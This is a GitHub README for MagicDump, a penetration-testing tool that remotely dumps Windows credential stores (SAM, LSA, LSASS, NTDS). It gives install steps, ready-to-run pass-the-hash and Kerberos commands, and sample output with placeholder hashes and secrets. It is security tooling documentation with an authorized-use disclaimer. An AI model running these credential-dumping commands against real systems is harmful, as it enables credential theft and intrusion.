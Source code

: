 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash> | -k [--no-pass]] [--local-auth] [-v]
```

<br>

### Arguments
- `-t` / `--target`: Specify the target IP address of the Windows machine.
- `-u` / `--username`: Specify the username to authenticate as.
- `-p` / `--password`: Specify the password for authentication.
- `-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
- `k` / `--kerberos`: Use Kerberos authentication. Requires a valid Kerberos ticket.
  - If using Kerberos ticket cache (no password or hash), set the `KRB5CCNAME` environment variable to the path of your ticket and use `--no-pass`.
- `--no-pass`: Skip password or hash when using Kerberos authentication. Requires `-k`.
- `--local-auth`: Use local authentication (optional).
- `-v` / `--verbose`: Enable verbose output for debugging (optional).
- `-h` / `--help`: Show usage info

<br>

---

<br>

## Examples

Password auth:
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

Pass-the-Hash:
```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

Local auth:
```bash
./MagicDump -t 192.168.1.120 -u administrator -p P@ssw0rd --local-auth
```

Pass-the-Ticket (Kerberos auth):
```bash
KRB5CCNAME=administrator@cifs_dc.company.com@COMPANY.COM.ccache ./MagicDump -t dc.company.com -u administrator -k --no-pass
```

Kerberos auth with password:
```bash
./MagicDump -t dc.company.com -u administrator -p 'StrongPassword123' -k
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Starting LSASS dump using lsassy...
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dump saved to ~/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt
[LSASS CREDENTIALS FOUND]:
EXAMPLE\service_user abcdefabcdefabcdefabcdefabcdefabcdef
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-05T07:28:58Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt"
    },
    "LSASS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt",
      "method": "lsassy"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSA_dump_192.168.1.100.txt",
    "Starting LSASS dump using lsassy...",
    "LSASS dump saved to /home/user/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt"
  ]
}
```

<br>

---

<br>

## Roadmap
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
